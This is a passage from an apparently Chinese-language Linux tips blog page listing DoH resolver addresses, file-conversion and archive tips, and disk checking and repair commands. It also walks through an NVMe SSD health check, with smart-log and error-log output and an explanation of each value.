class="symbol">https:</span>/<span class="regexp">/dns.quad9.net/dns</span>-query</span><br><span class="line"><span class="symbol">https:</span>/<span class="regexp">/dns11.quad9.net/dns</span>-query</span><br><span class="line">OpenDNS DoH 地址<span class="symbol">:https</span><span class="symbol">://doh</span>.opendns.com/dns-query</span><br></pre></td></tr></table></figure>
<h3 id="一些办公技巧"><a href="#一些办公技巧" class="headerlink" title="一些办公技巧"></a>一些办公技巧</h3><h4 id="Word转txt"><a href="#Word转txt" class="headerlink" title="Word转txt"></a>Word转txt</h4><blockquote>
<p>参见：<a href="https://github.com/rmshadows/rm_scripts" target="_blank" rel="noopener">https://github.com/rmshadows/rm_scripts</a></p>
</blockquote>
<figure class="highlight css"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line"><span class="selector-tag">antiword</span>：新版本<span class="selector-tag">word</span>的<span class="selector-tag">docx</span>用不了</span><br><span class="line">早期的<span class="selector-tag">doc</span>：<span class="selector-tag">antiword</span> 【<span class="selector-tag">xxx</span><span class="selector-class">.doc</span>】</span><br><span class="line"></span><br><span class="line">新版本<span class="selector-tag">docx</span>请使用<span class="selector-tag">pandoc</span>：</span><br><span class="line"><span class="selector-tag">pandoc</span> <span class="selector-tag">-s</span> <span class="selector-tag">input</span><span class="selector-class">.docx</span> <span class="selector-tag">-t</span> <span class="selector-tag">plain</span> <span class="selector-tag">-o</span> <span class="selector-tag">output</span><span class="selector-class">.txt</span></span><br></pre></td></tr></table></figure>
<h4 id="ls只显示一列"><a href="#ls只显示一列" class="headerlink" title="ls只显示一列"></a>ls只显示一列</h4><figure class="highlight jboss-cli"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">ls</span> <span class="params">--format=single-column</span></span><br><span class="line"><span class="comment"># 包括隐藏文件夹</span></span><br><span class="line"><span class="keyword">ls</span> -a <span class="params">--format=single-column</span></span><br><span class="line">并复制到剪贴板:</span><br><span class="line"><span class="keyword">ls</span> <span class="params">--format=single-column</span> | xsel -b</span><br><span class="line"></span><br><span class="line">zshrc:</span><br><span class="line"><span class="keyword">alias</span> lsx='<span class="keyword">ls</span> <span class="params">--format=single-column</span> | xsel -b'</span><br></pre></td></tr></table></figure>
<h4 id="解决zip压缩包乱码问题"><a href="#解决zip压缩包乱码问题" class="headerlink" title="解决zip压缩包乱码问题"></a>解决<code>zip</code>压缩包乱码问题</h4><p>如：<code>╡┌4╒┬╩╡└²-╖╓╬÷╜ß╣√.xlsx</code></p>
<p>安装<code>unar</code>即可</p>
<p>示例：<code>unar 1.zip</code></p>
<h4 id="处理RAR压缩包"><a href="#处理RAR压缩包" class="headerlink" title="处理RAR压缩包"></a>处理RAR压缩包</h4><p>详情请见：<code>https://www.rarlab.com/download.htm</code></p>
<h4 id="压缩包文件名称过长"><a href="#压缩包文件名称过长" class="headerlink" title="压缩包文件名称过长"></a>压缩包文件名称过长</h4><figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="number">1.</span>单独解压</span><br><span class="line"><span class="number">2.</span>在NTFS磁盘解压</span><br></pre></td></tr></table></figure>
<h4 id="清空文件内容"><a href="#清空文件内容" class="headerlink" title="清空文件内容"></a>清空文件内容</h4><p>为了清除诸如日志文件之类的文件的内容，不要用 <code>rm</code>(1) 命令去删除文件然后创建新的空文件，因为这个文件可能在命令执行的期间还在被使用。以下是清除文件内容的正确方法。</p>
<figure class="highlight elixir"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="variable">$ </span><span class="symbol">:&gt;file_to_be_cleared</span></span><br></pre></td></tr></table></figure>
<h4 id="批量转换jpg"><a href="#批量转换jpg" class="headerlink" title="批量转换jpg"></a>批量转换jpg</h4><figure class="highlight nginx"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># 批量转换png和jpeg到png</span></span><br><span class="line"><span class="attribute">mogrify</span> -format jpg <span class="regexp">*.png</span> <span class="regexp">*.jpeg</span></span><br></pre></td></tr></table></figure>
<h3 id="磁盘检查、修复"><a href="#磁盘检查、修复" class="headerlink" title="磁盘检查、修复"></a>磁盘检查、修复</h3><p>遇到NTFS磁盘无法挂载，如<code>&quot;No object for D-Bus interface&quot;</code>，可以采用修复后手动命令行<code>mount</code>挂载。也可使用<code>gparted</code>分配新UUID，然后修复磁盘后正常挂载。</p>
<p>Windows：</p>
<p><code>CHKDSK</code>命令：检查磁盘上的文件系统错误,并对损坏的扇区进行恢复。</p>
<p>格式：<code>CHKDSK 【驱动器:】 【参数】</code></p>
<p>示例：<code>CHKDSK D: /R /F</code> （检查D盘并修复错误）</p>
<p><code>SFC</code>命令：检查和恢复Windows系统文件。可修复因误删除或磁盘损坏导致的系统文件丢失或损坏的问题。</p>
<p>示例：<code>SFC /SCANNOW</code></p>
<p>Linux：</p>
<p><code>fsck</code>命令：检查并修复Linux文件系统错误,恢复已损坏的超级块、inode、目录项等。格式：<code>fsck 【文件系统类型】 【分区设备名称】</code> </p>
<p>示例：<code>fsck ext3 /dev/sda1</code> （检查并修复<code>/dev/sda1</code>分区的<code>ext3</code>文件系统）</p>
<h4 id="固态硬盘检测"><a href="#固态硬盘检测" class="headerlink" title="固态硬盘检测"></a>固态硬盘检测</h4><figure class="highlight yaml"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br><span class="line">80</span><br><span class="line">81</span><br><span class="line">82</span><br><span class="line">83</span><br><span class="line">84</span><br><span class="line">85</span><br><span class="line">86</span><br><span class="line">87</span><br><span class="line">88</span><br><span class="line">89</span><br><span class="line">90</span><br><span class="line">91</span><br><span class="line">92</span><br><span class="line">93</span><br><span class="line">94</span><br><span class="line">95</span><br><span class="line">96</span><br><span class="line">97</span><br><span class="line">98</span><br><span class="line">99</span><br><span class="line">100</span><br><span class="line">101</span><br><span class="line">102</span><br><span class="line">103</span><br><span class="line">104</span><br><span class="line">105</span><br><span class="line">106</span><br><span class="line">107</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># 安装检测工具：</span></span><br><span class="line"><span class="string">sudo</span> <span class="string">apt</span> <span class="string">update</span></span><br><span class="line"><span class="string">sudo</span> <span class="string">apt</span> <span class="string">install</span> <span class="string">smartmontools</span> <span class="string">nvme-cli</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># 识别磁盘设备名称</span></span><br><span class="line"><span class="string">lsblk</span> <span class="string">-o</span> <span class="string">NAME,SIZE,MODEL</span></span><br><span class="line"><span class="string">└─$</span> <span class="string">lsblk</span> <span class="string">-o</span> <span class="string">NAME,SIZE,MODEL</span></span><br><span class="line"><span class="string">NAME</span>          <span class="string">SIZE</span> <span class="string">MODEL</span></span><br><span class="line"><span class="string">nvme1n1</span>     <span class="number">931.</span><span class="string">5G</span> <span class="string">Samsung</span> <span class="string">SSD</span> <span class="number">980</span> <span class="string">PRO</span> <span class="string">1TB</span></span><br><span class="line"><span class="string">├─nvme1n1p1</span>   <span class="string">128M</span> </span><br><span class="line"><span class="string">├─nvme1n1p2</span>   <span class="string">500M</span> </span><br><span class="line"><span class="string">├─nvme1n1p3</span> <span class="number">186.</span><span class="string">3G</span> </span><br><span class="line"><span class="string">├─nvme1n1p4</span>  <span class="number">14.</span><span class="string">9G</span> </span><br><span class="line"><span class="string">├─nvme1n1p5</span> <span class="number">465.</span><span class="string">7G</span> </span><br><span class="line"><span class="string">├─nvme1n1p6</span> <span class="number">186.</span><span class="string">3G</span> </span><br><span class="line"><span class="string">└─nvme1n1p7</span>  <span class="number">77.</span><span class="string">8G</span> </span><br><span class="line"><span class="string">nvme0n1</span>     <span class="number">232.</span><span class="string">9G</span> <span class="string">KINGSTON</span> <span class="string">SNV2S250G</span></span><br><span class="line"><span class="string">├─nvme0n1p1</span>    <span class="string">16M</span> </span><br><span class="line"><span class="string">├─nvme0n1p2</span>   <span class="string">100M</span> </span><br><span class="line"><span class="string">├─nvme0n1p3</span>   <span class="string">232G</span> </span><br><span class="line"><span class="string">└─nvme0n1p4</span>   <span class="string">803M</span> </span><br><span class="line"></span><br><span class="line"><span class="comment"># 以上面为例</span></span><br><span class="line"><span class="string">sudo</span> <span class="string">nvme</span> <span class="string">smart-log</span> <span class="string">/dev/nvme1n1</span></span><br><span class="line"><span class="string">sudo</span> <span class="string">nvme</span> <span class="string">smart-log</span> <span class="string">/dev/nvme0n1</span></span><br><span class="line"></span><br><span class="line"><span class="string">输出：</span></span><br><span class="line"><span class="string">$</span> <span class="string">sudo</span> <span class="string">nvme</span> <span class="string">smart-log</span> <span class="string">/dev/nvme1n1</span></span><br><span class="line"><span class="string">Smart</span> <span class="string">Log</span> <span class="string">for</span> <span class="string">NVME</span> <span class="string">device:nvme1n1</span> <span class="string">namespace-id:ffffffff</span></span><br><span class="line"><span class="string">critical_warning</span>			<span class="string">:</span> <span class="number">0</span></span><br><span class="line"><span class="string">temperature</span>				<span class="string">:</span> <span class="number">36</span><span class="string">°C</span> <span class="string">(309</span> <span class="string">Kelvin)</span></span><br><span class="line"><span class="string">available_spare</span>				<span class="string">:</span> <span class="number">100</span><span class="string">%</span></span><br><span class="line"><span class="string">available_spare_threshold</span>		<span class="string">:</span> <span class="number">10</span><span class="string">%</span></span><br><span class="line"><span class="string">percentage_used</span>				<span class="string">:</span> <span class="number">2</span><span class="string">%</span></span><br><span class="line"><span class="attr">endurance group critical warning summary:</span> <span class="number">0</span></span><br><span class="line"><span class="string">Data</span> <span class="string">Units</span> <span class="string">Read</span>				<span class="string">:</span> <span class="number">29</span><span class="string">,636,902</span> <span class="string">(15.17</span> <span class="string">TB)</span></span><br><span class="line"><span class="string">Data</span> <span class="string">Units</span> <span class="string">Written</span>			<span class="string">:</span> <span class="number">27</span><span class="string">,557,669</span> <span class="string">(14.11</span> <span class="string">TB)</span></span><br><span class="line"><span class="string">host_read_commands</span>			<span class="string">:</span> <span class="number">405</span><span class="string">,775,882</span></span><br><span class="line"><span class="string">host_write_commands</span>			<span class="string">:</span> <span class="number">469</span><span class="string">,098,463</span></span><br><span class="line"><span class="string">controller_busy_time</span>			<span class="string">:</span> <span class="number">4</span><span class="string">,192</span></span><br><span class="line"><span class="string">power_cycles</span>				<span class="string">:</span> <span class="number">1</span><span class="string">,103</span></span><br><span class="line"><span class="string">power_on_hours</span>				<span class="string">:</span> <span class="number">697</span></span><br><span class="line"><span class="string">unsafe_shutdowns</span>			<span class="string">:</span> <span class="number">43</span></span><br><span class="line"><span class="string">media_errors</span>				<span class="string">:</span> <span class="number">0</span></span><br><span class="line"><span class="string">num_err_log_entries</span>			<span class="string">:</span> <span class="number">0</span></span><br><span class="line"><span class="string">Warning</span> <span class="string">Temperature</span> <span class="string">Time</span>		<span class="string">:</span> <span class="number">0</span></span><br><span class="line"><span class="string">Critical</span> <span class="string">Composite</span> <span class="string">Temperature</span> <span class="string">Time</span>	<span class="string">:</span> <span class="number">0</span></span><br><span class="line"><span class="attr">Temperature Sensor 1           :</span> <span class="number">36</span><span class="string">°C</span> <span class="string">(309</span> <span class="string">Kelvin)</span></span><br><span class="line"><span class="attr">Temperature Sensor 2           :</span> <span class="number">40</span><span class="string">°C</span> <span class="string">(313</span> <span class="string">Kelvin)</span></span><br><span class="line"><span class="string">Thermal</span> <span class="string">Management</span> <span class="string">T1</span> <span class="string">Trans</span> <span class="string">Count</span>	<span class="string">:</span> <span class="number">0</span></span><br><span class="line"><span class="string">Thermal</span> <span class="string">Management</span> <span class="string">T2</span> <span class="string">Trans</span> <span class="string">Count</span>	<span class="string">:</span> <span class="number">0</span></span><br><span class="line"><span class="string">Thermal</span> <span class="string">Management</span> <span class="string">T1</span> <span class="string">Total</span> <span class="string">Time</span>	<span class="string">:</span> <span class="number">0</span></span><br><span class="line"><span class="string">Thermal</span> <span class="string">Management</span> <span class="string">T2</span> <span class="string">Total</span> <span class="string">Time</span>	<span class="string">:</span> <span class="number">0</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="string">$</span> <span class="string">sudo</span> <span class="string">nvme</span> <span class="string">smart-log</span> <span class="string">/dev/nvme0n1</span></span><br><span class="line"><span class="string">Smart</span> <span class="string">Log</span> <span class="string">for</span> <span class="string">NVME</span> <span class="string">device:nvme0n1</span> <span class="string">namespace-id:ffffffff</span></span><br><span class="line"><span class="string">critical_warning</span>			<span class="string">:</span> <span class="number">0</span></span><br><span class="line"><span class="string">temperature</span>				<span class="string">:</span> <span class="number">30</span><span class="string">°C</span> <span class="string">(303</span> <span class="string">Kelvin)</span></span><br><span class="line"><span class="string">available_spare</span>				<span class="string">:</span> <span class="number">100</span><span class="string">%</span></span><br><span class="line"><span class="string">available_spare_threshold</span>		<span class="string">:</span> <span class="number">10</span><span class="string">%</span></span><br><span class="line"><span class="string">percentage_used</span>				<span class="string">:</span> <span class="number">0</span><span class="string">%</span></span><br><span class="line"><span class="attr">endurance group critical warning summary:</span> <span class="number">0</span></span><br><span class="line"><span class="string">Data</span> <span class="string">Units</span> <span class="string">Read</span>				<span class="string">:</span> <span class="number">2</span><span class="string">,569,662</span> <span class="string">(1.32</span> <span class="string">TB)</span></span><br><span class="line"><span class="string">Data</span> <span class="string">Units</span> <span class="string">Written</span>			<span class="string">:</span> <span class="number">2</span><span class="string">,049,472</span> <span class="string">(1.05</span> <span class="string">TB)</span></span><br><span class="line"><span class="string">host_read_commands</span>			<span class="string">:</span> <span class="number">33</span><span class="string">,216,419</span></span><br><span class="line"><span class="string">host_write_commands</span>			<span class="string">:</span> <span class="number">22</span><span class="string">,864,025</span></span><br><span class="line"><span class="string">controller_busy_time</span>			<span class="string">:</span> <span class="number">63</span></span><br><span class="line"><span class="string">power_cycles</span>				<span class="string">:</span> <span class="number">1</span><span class="string">,086</span></span><br><span class="line"><span class="string">power_on_hours</span>				<span class="string">:</span> <span class="number">5</span><span class="string">,877</span></span><br><span class="line"><span class="string">unsafe_shutdowns</span>			<span class="string">:</span> <span class="number">35</span></span><br><span class="line"><span class="string">media_errors</span>				<span class="string">:</span> <span class="number">0</span></span><br><span class="line"><span class="string">num_err_log_entries</span>			<span class="string">:</span> <span class="number">1</span><span class="string">,300</span></span><br><span class="line"><span class="string">Warning</span> <span class="string">Temperature</span> <span class="string">Time</span>		<span class="string">:</span> <span class="number">0</span></span><br><span class="line"><span class="string">Critical</span> <span class="string">Composite</span> <span class="string">Temperature</span> <span class="string">Time</span>	<span class="string">:</span> <span class="number">0</span></span><br><span class="line"><span class="attr">Temperature Sensor 1           :</span> <span class="number">58</span><span class="string">°C</span> <span class="string">(331</span> <span class="string">Kelvin)</span></span><br><span class="line"><span class="attr">Temperature Sensor 2           :</span> <span class="number">49</span><span class="string">°C</span> <span class="string">(322</span> <span class="string">Kelvin)</span></span><br><span class="line"><span class="attr">Temperature Sensor 3           :</span> <span class="number">32</span><span class="string">°C</span> <span class="string">(305</span> <span class="string">Kelvin)</span></span><br><span class="line"><span class="string">Thermal</span> <span class="string">Management</span> <span class="string">T1</span> <span class="string">Trans</span> <span class="string">Count</span>	<span class="string">:</span> <span class="number">0</span></span><br><span class="line"><span class="string">Thermal</span> <span class="string">Management</span> <span class="string">T2</span> <span class="string">Trans</span> <span class="string">Count</span>	<span class="string">:</span> <span class="number">0</span></span><br><span class="line"><span class="string">Thermal</span> <span class="string">Management</span> <span class="string">T1</span> <span class="string">Total</span> <span class="string">Time</span>	<span class="string">:</span> <span class="number">0</span></span><br><span class="line"><span class="string">Thermal</span> <span class="string">Management</span> <span class="string">T2</span> <span class="string">Total</span> <span class="string">Time</span>	<span class="string">:</span> <span class="number">0</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># 分析</span></span><br><span class="line"><span class="string">✅</span> <span class="string">Samsung</span> <span class="string">SSD</span> <span class="number">980</span> <span class="string">PRO</span> <span class="string">1TB（/dev/nvme1n1）</span></span><br><span class="line"><span class="string">状态：非常健康，放心用。</span></span><br><span class="line"><span class="string">项目</span>	<span class="string">状态</span>	<span class="string">解读</span></span><br><span class="line"><span class="string">critical_warning</span>	<span class="number">0</span>	<span class="string">无关键故障</span></span><br><span class="line"><span class="string">temperature</span>	<span class="number">36</span><span class="string">°C</span>	<span class="string">非常安全的温度</span></span><br><span class="line"><span class="string">percentage_used</span>	<span class="number">2</span><span class="string">%</span>	<span class="string">仅用了</span> <span class="number">2</span><span class="string">%</span> <span class="string">的寿命，几乎是新盘</span></span><br><span class="line"><span class="string">media_errors</span>	<span class="number">0</span>	<span class="string">无坏块</span></span><br><span class="line"><span class="string">unsafe_shutdowns</span>	<span class="number">43</span>	<span class="string">稍微偏多，但不严重，可能是曾被强制关机或突然断电</span></span><br><span class="line"><span class="string">power_on_hours</span>	<span class="number">697</span> <span class="string">小时（约29天）</span>	<span class="string">正常使用时间</span></span><br><span class="line"><span class="string">data_written</span>	<span class="number">14.</span><span class="string">1TB</span>	<span class="string">写入量健康，正常范围</span></span><br><span class="line"><span class="string">🔧</span> <span class="string">建议：</span></span><br><span class="line">    <span class="string">不用修复，一切正常。</span></span><br><span class="line">    <span class="string">如果担心</span> <span class="string">unsafe_shutdowns，可以检查一下系统是否经常非正常关机，防止电源突然断电（比如加</span> <span class="string">UPS</span> <span class="string">或优化休眠策略）。</span></span><br><span class="line"><span class="string">⚠️</span> <span class="string">KINGSTON</span> <span class="string">SNV2S250G（/dev/nvme0n1）</span></span><br><span class="line"><span class="string">状态：总体健康，但有轻微注意事项。</span></span><br><span class="line"><span class="string">项目</span>	<span class="string">状态</span>	<span class="string">解读</span></span><br><span class="line"><span class="string">critical_warning</span>	<span class="number">0</span>	<span class="string">无关键故障</span></span><br><span class="line"><span class="string">temperature</span>	<span class="number">30</span><span class="string">°C（但传感器2高达58°C）</span>	<span class="string">偶尔有过高温情况</span></span><br><span class="line"><span class="string">percentage_used</span>	<span class="number">0</span><span class="string">%</span>	<span class="string">几乎全新</span></span><br><span class="line"><span class="string">media_errors</span>	<span class="number">0</span>	<span class="string">无坏块</span></span><br><span class="line"><span class="string">num_err_log_entries</span>	<span class="number">1300</span>	<span class="string">⚠️</span> <span class="string">日志中记录了</span> <span class="number">1300</span> <span class="string">次错误事件（不一定是坏块，但需注意）</span></span><br><span class="line"><span class="string">unsafe_shutdowns</span>	<span class="number">35</span>	<span class="string">偏多</span></span><br><span class="line"><span class="string">power_on_hours</span>	<span class="number">5877</span> <span class="string">小时（约245天）</span>	<span class="string">使用时间长于三星盘</span></span><br></pre></td></tr></table></figure>
<p>🛠️ 可选操作（适合 Kingston）</p>
<ol>
<li><p>执行 TRIM（整理空间）:<code>sudo fstrim -v /</code></p>
<figure class="highlight excel"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">📌 什么是 <span class="built_in">TRIM</span>？</span><br><span class="line">当你在 SSD 上删除文件时，操作系统会把这块空间标记为“已删除”，但 SSD 本身不知道这块数据可以擦除。久而久之，这会让 SSD 变慢、写入效率下降。</span><br><span class="line"><span class="built_in">TRIM</span> 就是告诉 SSD：</span><br><span class="line">    “这些块的内容已经没用了，可以清理。”</span><br></pre></td></tr></table></figure>
</li>
<li><p>检查文件系统错误（非破坏性）:<code>sudo fsck -n /dev/nvme0n1p3</code> (⚠️ <code>-n</code> 表示只检查不修复。若发现问题，可用 <code>-y</code> 自动修复。)</p>
</li>
</ol>
<h4 id="检查错误日志内容（查看到底错了啥）"><a href="#检查错误日志内容（查看到底错了啥）" class="headerlink" title="检查错误日志内容（查看到底错了啥）"></a>检查错误日志内容（查看到底错了啥）</h4><p>使用：<code>sudo nvme error-log /dev/nvme0n1</code></p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br><span class="line">80</span><br><span class="line">81</span><br><span class="line">82</span><br><span class="line">83</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># 结果分析</span></span><br><span class="line">$ sudo nvme error-log /dev/nvme0n1</span><br><span class="line"><span class="builtin-name">Error</span> Log Entries <span class="keyword">for</span> device:nvme0n1 entries:4</span><br><span class="line"><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span>.</span><br><span class="line"> Entry[ 0]   </span><br><span class="line"><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span>.</span><br><span class="line">error_count	: 1300</span><br><span class="line">sqid		: 0</span><br><span class="line">cmdid		: 0x7019</span><br><span class="line">status_field	: 0x2002(Invalid Field <span class="keyword">in</span> Command: A reserved coded value <span class="keyword">or</span> an unsupported value <span class="keyword">in</span> a defined field)</span><br><span class="line">phase_tag	: 0</span><br><span class="line">parm_err_loc	: 0xffff</span><br><span class="line">lba		: 0</span><br><span class="line">nsid		: 0</span><br><span class="line">vs		: 0</span><br><span class="line">trtype		: The transport<span class="built_in"> type </span>is <span class="keyword">not</span> indicated <span class="keyword">or</span> the <span class="builtin-name">error</span> is <span class="keyword">not</span> transport related.</span><br><span class="line">cs		: 0</span><br><span class="line">trtype_spec_info: 0</span><br><span class="line"><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span>.</span><br><span class="line"> Entry[ 1]   </span><br><span class="line"><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span>.</span><br><span class="line">error_count	: 0</span><br><span class="line">sqid		: 0</span><br><span class="line">cmdid		: 0</span><br><span class="line">status_field	: 0(Successful Completion: The command completed without error)</span><br><span class="line">phase_tag	: 0</span><br><span class="line">parm_err_loc	: 0</span><br><span class="line">lba		: 0</span><br><span class="line">nsid		: 0</span><br><span class="line">vs		: 0</span><br><span class="line">trtype		: The transport<span class="built_in"> type </span>is <span class="keyword">not</span> indicated <span class="keyword">or</span> the <span class="builtin-name">error</span> is <span class="keyword">not</span> transport related.</span><br><span class="line">cs		: 0</span><br><span class="line">trtype_spec_info: 0</span><br><span class="line"><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span>.</span><br><span class="line"> Entry[ 2]   </span><br><span class="line"><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span>.</span><br><span class="line">error_count	: 0</span><br><span class="line">sqid		: 0</span><br><span class="line">cmdid		: 0</span><br><span class="line">status_field	: 0(Successful Completion: The command completed without error)</span><br><span class="line">phase_tag	: 0</span><br><span class="line">parm_err_loc	: 0</span><br><span class="line">lba		: 0</span><br><span class="line">nsid		: 0</span><br><span class="line">vs		: 0</span><br><span class="line">trtype		: The transport<span class="built_in"> type </span>is <span class="keyword">not</span> indicated <span class="keyword">or</span> the <span class="builtin-name">error</span> is <span class="keyword">not</span> transport related.</span><br><span class="line">cs		: 0</span><br><span class="line">trtype_spec_info: 0</span><br><span class="line"><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span>.</span><br><span class="line"> Entry[ 3]   </span><br><span class="line"><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span>.</span><br><span class="line">error_count	: 0</span><br><span class="line">sqid		: 0</span><br><span class="line">cmdid		: 0</span><br><span class="line">status_field	: 0(Successful Completion: The command completed without error)</span><br><span class="line">phase_tag	: 0</span><br><span class="line">parm_err_loc	: 0</span><br><span class="line">lba		: 0</span><br><span class="line">nsid		: 0</span><br><span class="line">vs		: 0</span><br><span class="line">trtype		: The transport<span class="built_in"> type </span>is <span class="keyword">not</span> indicated <span class="keyword">or</span> the <span class="builtin-name">error</span> is <span class="keyword">not</span> transport related.</span><br><span class="line">cs		: 0</span><br><span class="line">trtype_spec_info: 0</span><br><span class="line"><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span><span class="built_in">..</span>.</span><br><span class="line"></span><br><span class="line">error_count      : 1300</span><br><span class="line">status_field     : 0x2002 (Invalid Field <span class="keyword">in</span> Command)</span><br><span class="line">parm_err_loc     : 0xffff</span><br><span class="line">lba              : 0</span><br><span class="line"></span><br><span class="line">显示：</span><br><span class="line">✅ 含义解析：</span><br><span class="line">    0x2002 错误码 = 命令字段无效（例如系统发给 SSD 的 NVMe 命令格式有问题）</span><br><span class="line">    parm_err_loc = 0xffff = 无法定位具体哪个字段错了（可能是固件不支持某命令参数）</span><br><span class="line">    lba = 0 = 不是某个坏块引起的</span><br><span class="line">    错误 只出现在 entry[0]，其他 entry 都是 Successful Completion（正常）</span><br><span class="line">💡 这说明：</span><br><span class="line">这 并不是物理层面的损坏，而是系统和 SSD 控制器之间的某些命令通信出错。很可能是：</span><br><span class="line">    操作系统或内核对某些 NVMe 命令实现有问题</span><br><span class="line">    SSD 固件不完全支持某些命令（比如温控、日志查询）</span><br><span class="line">    曾经系统 crash 导致 SSD 返回错误（但没实际写失败）</span><br><span class="line">    某些特定版本 Linux NVMe 驱动跟 Kingston SNV2S 有兼容性问题（在社区里也有人反馈过）</span><br><span class="line">    ⚠️ 这种“Invalid Field <span class="keyword">in</span> Command”错误一般是「历史错误」，对数据没有直接影响，但可以用来判断兼容性问题是否严重。</span><br></pre></td></tr></table></figure>
